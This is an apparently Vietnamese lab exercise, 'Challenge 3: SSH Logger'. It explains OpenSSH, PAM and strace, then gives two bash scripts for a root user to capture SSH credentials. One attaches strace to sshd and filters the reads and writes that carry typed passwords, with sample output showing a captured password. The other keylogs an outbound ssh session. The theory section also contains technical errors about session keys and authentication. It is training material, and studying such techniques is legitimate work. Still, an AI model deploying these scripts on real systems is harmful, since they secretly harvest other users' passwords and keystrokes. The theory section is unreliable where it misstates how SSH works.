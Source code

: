 # Challenge 3: Lập trình SSH Logger

## 1. Lý thuyết

- OpenSSH là bộ công cụ mã nguồn mở, được sử dụng để mã hóa thông tin trao đổi giữa các host với nhau sử dụng SSH. Bộ công cụ OpenSSH gồm:
  - Remote Operation: ssh, scp và sftp
  - Key Management: ssh-add, ssh-keysign, ssh-keyscan và ssh-keygen
  - Các dịch vụ khác: sshd, sftp-server và ssh-agent
- **sshd** (OpenSSH Daemon):
  - Là chương trình dạng *daemon*
  - Lắng nghe các kết nối từ máy khách đến máy chủ tại cổng 22
  - Thường khởi động cùng hệ thống với quyền root
  - **sshd** tạo một *daemon* mới cho mỗi kết nối tới máy chủ, các *daemon* này xử việc trao đổi khóa, mã hóa, xác thực, thực thi mã và trao đổi dữ liệu
- Quá trình SSH bao gồm 3 giai đoạn: **Verification of the server by the client**, **Generation of a session key to encrypt all the communication** và **Authentication of the client**
  - **Verification of server**: Server lắng nghe kết nối SSH tại cổng 22. Khi client khởi tạo một kết nối tới cổng này, có 2 trường hợp:
    - Nếu client kết nối đến server lần đầu tiên, server sẽ yêu cầu client xác minh thủ công **public key** của server. **Public key** này có thể được tìm thấy bằng lệnh `ssh-keyscan`. Sau khi **public key** được xác minh, client sẽ lưu server vào tệp tin `./.ssh/known_hosts`. Tệp tin `known_hosts` lưu thông tin các server mà client đã xác minh.
    - Nếu client đã từng kết nối đến server rồi thì thông tin của server sẽ khớp với bản ghi trong file `known_hosts`
  - **Generation of Session Key**: Sau khi đã xác minh, 2 bên sẽ thỏa thuận khóa phiên - dùng để mã hóa toàn bộ giao tiếp giữa 2 bên - sử dụng thuật toán trao đổi khóa **Diffie-Hellman**. Khóa phiên được tạo ra là khóa công khai - dùng chung cho cả quá trình giải mã và mã hóa
  - **Authentication of the Client**: Giai đoạn cuối cùng là xác thực client, có nhiều phương pháp xác thực như **Host-based Authentication** hay **Public key Authentication**. Quá trình **Public key Authentication** sử dụng cặp khóa dưới dạng mã hóa bất đối xứng, **private key** dùng để giải mã dữ liệu và thường được người dùng giữ, còn **public key** dùng để mã hóa dữ liệu và server giữ. Hoạt động diễn ra như sau:
    - Client sẽ gửi thông tin user được sử dụng để đăng nhập vào Server. Server sẽ đi hỏi OS PAM xem có user này trong hệ thống không, nếu có thì tiếp tục tiến trình kiểm tra cặp key
    - Client gửi một thông tin ID của cặp key được sử dụng để chứng thực đến server.
    - Server xem tệp `authorized_keys` để kiểm tra account mà user đang log in vào dựa vào key ID
    - Nếu có 1 **public key** trùng khớp với ID được tìm thấy trong file thì server sẽ tạo một chuỗi **string+number (challenge)** và sử dụng **public key** để mã hóa chuỗi đó thành một thông điệp và gửi nso đến cho client.
    - Nếu client thật sự sở hữu **private key** tương ứng thì sẽ có khả năng giải mã thông điệp để khôi phục lại chuỗi kí tự ban đầu
    - Sau khi giải mã thành công thì chuỗi kí tự đó được kết hợp với **Session key** được tạo ra ở giai đoạn 2 và tính toán giá trị MD5 hash ra 1 chuỗi mới để gửi ngược về phía server
    - Server sử dụng **Session key** được tạo ra ở giai đoạn 2 và chuỗi kí tự ban đầu, tính toán giá trị MD5 hash sau đó so sánh với MD5 hash mà client gửi. Nếu trùng nhau thì client sẽ được phép truy cập server.
- **Linux PAM** (Pluggable Authentication Modules): Là hệ thống các thư viện xử lý quá trình xác thức của ứng dụng (hoặc dịch vụ) trên hệ thống. PAM cung cấp cho các **privilege granting programs** (ví dụ login, su, ...) một API để thực hiện quá trình xác thực. Thay vì hỏi người dùng username và password. PAM chịu trách nhiệm xác thực các tệp đang được chạy. Điều này cho phép các nhà phát triển viết các ứng dụng yêu cầu xác thực độc lập với xác thực hệ thống.
  - Linux PAM tách quá trình xác thực thành 4 nhóm quản lý độc lập: **account** management, **auth**entication management, **password** management và **session** management.
    - **Auth**: Là module chịu trách nhiệm cho mục đích xác thực. Nó xác minh mật khẩu
    - **Account**: Sau khi người dùng đã xác thực bằng thông tin chính xác, phần account sẽ kiểm tra tính hợp lệ của tài khoản như hạn chế dưang nhập hoặc thời gian đăng nhập, ...
    - **Password**: Được sử dụng để thay đổi mật khẩu
    - **Session**: Quản lý các session, chứa tài khoản hoạt động của người dùng, tạo hộp thư, tạo thư mục chính của người dùng, ...
  - Cách hoạt động của PAM:
    - Người dùng chạy một ứng dụng để truy cập vào dịch vụ mong muốn (ví dụ: `login`)
    - PAM library được gọi để thực hiện nhiệm vụ xác thực
    - PAM library sẽ dựa vào file cấu hình của chương trình đó trong `/etc/pam.d` (ví dụ: `/etc/pam.d/login`) xác định loại xác thực nào được yêu cầu cho chương trình trên. Trong trường hợp không có file cấu hình thì file `/etc/pam.d/other` sẽ được sử dụng
    - PAM library sẽ load các module yêu cầu cho xác thực trên
    - Các module này sẽ tạo một kiên kết tới các hàm chuyển đổi (conversation functions) trên chương trình
    - Các hàm này dựa vào các modules mà đưa ra các yêu cầu với người dùng (ví dụ: yêu cầu người dùng nhập mật khẩu)
    - Người dùng nhập thông tin vào theo yêu cầu
    - Sau khi quá trình xác thực kết thúc, chương trình này sẽ dựa vào kết quả mà đáp ứng yêu cầu người dùng (ví dụ: cho phép login vào hệ thống) hay thông báo thất bại với người dùng
- **strace** là công cụ chẩn đoán, hướng dẫn và debug. Nó chặn bắt và ghi lại các system calls được gọi bởi tiến trình và các signal mà tiến trình đó nhận được.
- **strace** sử dụng **ptrace** (process trace) - một system call cho phép tiến trình cha theo dõi và điều khiển tiến trình con. **ptrace** sử dụng một số cấu trúc dữ liệu nội bộ của Linux để thiết lập mối quan hệ giữa tiến trình cha *(tracer)* và tiến trình con *(traced process)*. Bất cứ khi nào một system call được gọi bởi *traced process*, *tracer* sẽ được thông báo và *traced process* sẽ tạm thời bị dừng lại. Tại thời điểm này, **strace** sẽ xử lý thông tin về system call được gọi, sau đó trả lại quyền điều khiển cho *traced process*. **ptrace** hoạt động như một thành phần trung gian giữa tiến trình đang chạy và **strace**

## 2. Bài tập thực hành

Mô tả: Trường hợp đang có quyền root để truy cập vào 1 máy tính linux. Xây dựng cơ chế/kỹ thuật/chương trình để lấy được username, password ssh trong 2 trường hợp sau mà không thay đổi luồng hoạt động bình thường (khuyến khích làm theo nhiều cách)

1. Một user tiến hành truy cập vào máy tính đó thông qua ssh

   - Source code:

     ```shell
     #!/bin/bash
     
     sshd_pid=$(ps aux | grep -v grep | grep -i sshd | grep "listen" | sed -e 's/  */ /g' | cut -d" " -f 2)
     
     sudo strace -t -e read,write,openat -f -p $sshd_pid 2>&1 | grep --line-buffered -F -e 'write(5, "\0\0\0\' -e 'read(6, "\f\0\0\' -e '.profile'  
     ```

   - Output:

     ```
     [pid  5405] 09:51:19 write(5, "\0\0\0\4test", 8) = 8
     [pid  5405] 09:51:19 write(5, "\0\0\0\1d", 5) = 5
     [pid  5405] 09:51:19 write(5, "\0\0\0\33\4", 5 <unfinished ...>
     [pid  5405] 09:51:19 write(5, "\0\0\0\16ssh-connection\0\0\0\0\0\0\0\0", 26 <unfinished ...>
     [pid  5405] 09:51:24 write(5, "\0\0\0\10\f", 5) = 5
     [pid  5405] 09:51:24 write(5, "\0\0\0\003123", 7 <unfinished ...>
     [pid  5404] 09:51:24 read(6, "\f\0\0\0\003123", 8) = 8
     [pid  5405] 09:51:32 write(5, "\0\0\0\23\f", 5) = 5
     [pid  5405] 09:51:32 write(5, "\0\0\0\16BrUt3_f0rC3_m3", 18 <unfinished ...>
     [pid  5405] 09:51:32 write(5, "\0\0\0\1f", 5) = 5
     [pid  5551] 09:51:34 write(5, "\0\0\0\1\34", 5) = 5
     [pid  5552] 09:51:34 openat(AT_FDCWD, "/home/test/.profile", O_RDONLY) = 3
     ```

     

2. Một người dùng đứng trên máy tính đó ssh đi một máy tính khác

   - Source code:

     ``` shell
     #!/bin/bash
     
     ssh_pid=$(ps aux | grep -v grep | grep -i "ssh" | grep -i "pts" | sed -e 's/  */ /g' | cut -d" " -f 2)
     
     while [ ! $ssh_pid ];
     do
         ssh_pid=$(ps aux | grep -v grep | grep -i "ssh" | grep -i "pts" | sed -e 's/  */ /g' | cut -d" " -f 2)
     done
     
     hostname=$(sudo ps -p $ssh_pid -o args --no-headers | cut -d " " -f 2)
     echo -e "hostname: $hostname"
     echo "Keylogging ..."
     sudo strace -t -p $ssh_pid -e read  2>&1 | grep --line-buffered -F 'read' | grep "= 1" 
     ```

     

